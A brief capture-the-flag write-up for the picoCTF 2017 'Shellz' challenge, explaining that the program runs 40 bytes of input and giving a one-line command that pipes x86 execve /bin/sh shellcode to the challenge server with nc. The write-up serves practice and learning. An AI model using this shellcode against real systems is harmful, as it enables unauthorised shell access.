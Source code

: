 # Shellz
 
 ## Question
   > You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:49324.
   
 ## Solution
 ### 1. Try running the program
   Then you try running the program,the program says "Give me 40 byte".So you give the program shellcode within 40 byte.
   
 ### 2. Search shellcode
 Let's find  shellcode within 40 bytes from [here](http://shell-storm.org/shellcode/).
 I guess it is suspicious that linux x86 is suspicious.
   
 ### 3. Flag
   >(python -c'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x
 68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; cat -) | nc shell2017.picoctf.com 49324
 
 You can get flag by executing upper code.
